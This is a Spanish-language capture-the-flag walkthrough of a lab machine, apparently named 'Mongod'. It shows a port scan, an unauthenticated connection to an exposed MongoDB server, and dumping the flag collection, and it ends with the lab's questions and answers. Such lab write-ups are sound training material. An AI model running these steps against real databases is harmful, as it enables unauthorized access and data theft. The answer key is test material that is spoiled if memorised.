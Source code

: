 # Mongod

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **MongoDB**: Base de datos NoSQL de código abierto que almacena datos en formato JSON (BSON). Es popular por su flexibilidad y escalabilidad, pero requiere configuraciones adecuadas para prevenir vulnerabilidades como la exposición de puertos sin protección o la falta de autenticación.
  * **Databases (Bases de Datos)**: Sistemas de almacenamiento de datos organizados que permiten la gestión y recuperación eficiente de información. Las bases de datos pueden ser relacionales (SQL) o no relacionales (NoSQL), y una configuración incorrecta o sin medidas de seguridad adecuadas puede poner en riesgo la integridad y confidencialidad de los datos.
  * **Reconnaissance (Reconocimiento)**: Proceso de recolección de información sobre un objetivo para identificar posibles puntos de ataque. Esto incluye el análisis de servicios activos, puertos abiertos, sistemas operativos, y más. Es una fase clave en las pruebas de penetración.
  * **Misconfiguration (Mala Configuración)**: Error en la configuración de un sistema, red o servicio que crea vulnerabilidades de seguridad. Ejemplos incluyen configuraciones incorrectas de firewalls, permisos excesivos, o puertos abiertos innecesarios, que pueden ser explotados por atacantes.
  * **Anonymous/Guest Access (Acceso Anónimo/Acceso de Invitado)**: Acceso permitido a un sistema o recurso sin la necesidad de autenticarse. Si no se configura correctamente, este tipo de acceso puede permitir que usuarios no autorizados exploren o modifiquen datos de un sistema, aumentando el riesgo de explotación.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.163.203
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sV -T4 -vv -p- 10.129.163.203
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 154557.png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **27017** correspondiente a **MongoDB** están abiertos. A continuación, se indagará más sobre estos servicios.

Descargamos MongoDB.

```bash
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```

Ejecutamos dentro del directorio.

```bash
./mongo mongodb://10.129.163.203:27017
```

Estando dentro vemos la información.

```
show dbs
use sensitive_information;
show collections;
db.flag.find().pretty();
```

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Task 1**

¿Cuántos puertos TCP están abiertos en la máquina?\
**Respuesta:** `2`

**Task 2**

¿Qué servicio se está ejecutando en el puerto 27017 del host remoto?\
**Respuesta:** `MongoDB 3.6.8`

**Task 3**

¿Qué tipo de base de datos es MongoDB? (Elige: SQL o NoSQL)\
**Respuesta:** `NoSQL`

**Task 4**

¿Cuál es el nombre del comando para la shell de MongoDB que se instala con el paquete `mongodb-clients`?\
**Respuesta:** `Mongosh`

**Task 5**

¿Qué comando se usa para listar todas las bases de datos presentes en el servidor de MongoDB?\
**Respuesta:** `show dbs`

**Task 6**

¿Qué comando se usa para listar las colecciones dentro de una base de datos?\
**Respuesta:** `show collections`

**Task 7**

¿Qué comando se usa para volcar el contenido de todos los documentos dentro de la colección llamada `flag` en un formato fácil de leer?\
**Respuesta:** `db.flag.find().pretty()`
